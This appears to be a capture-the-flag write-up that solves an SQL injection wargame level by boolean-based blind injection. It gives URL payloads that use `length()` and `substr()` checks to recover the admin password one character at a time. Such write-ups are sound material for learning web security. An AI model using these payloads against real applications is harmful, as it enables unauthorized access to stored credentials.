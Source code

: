 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3bcdaeff-a4ba-4e3c-8acd-73e2ec8ce6d9)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

### Blind SQL Injection

First we have to reveal the length of the flag.

If we provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=1 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR length(pw)=1

## Commented part:
'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/8a33f464-e7de-4d4a-a47c-7285e7d69ea9)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?pw=' OR id='admin' AND length(pw)=8 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=8

## Commented part:
'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/9d922a6a-4f1e-4b4a-a3bd-e8d8b721ba3e)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the length of the `pw` column is 8.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/b1e4352c-c272-4fb7-8401-7d5fe2cc4423)

If we provide the following URI:

```
?pw=' OR id='admin' AND substr(pw, 1, 1)=0 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 1, 1)=0 #

## Commented part:
'
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/53f17b2b-b80d-4b8e-a904-bd88c1cbb7f3)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the first character of the `pw` for `id=admin` is `0`.

We can now move onto the second character:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=0 %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=0

## Commented part:
'
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/7abdfbc4-b2e1-4448-ad7e-8e38484d4cc1)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.
That tells us that the second character of the `pw` for `id=admin` is not `0`.

We can try other characters moving up to the following:

```
?pw=' OR id='admin' AND substr(pw, 2, 1)=9 %23
```

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=9 #'

## Queried part:
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, 2, 1)=9

## Commented part:
'
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/fcc7790e-333b-4b3c-b197-bfc02f67788d)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.
That tells us that the second character of the `pw` for `id=admin` is `9`.

We can keep repeating this process until we get all the eight characters of the `admin` password:

```
095a9852
```

Now, we can provide password URI:

```
?pw=095a9852' %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/cee48c8e-2e61-4ccd-93fc-2abe7fb6d417)
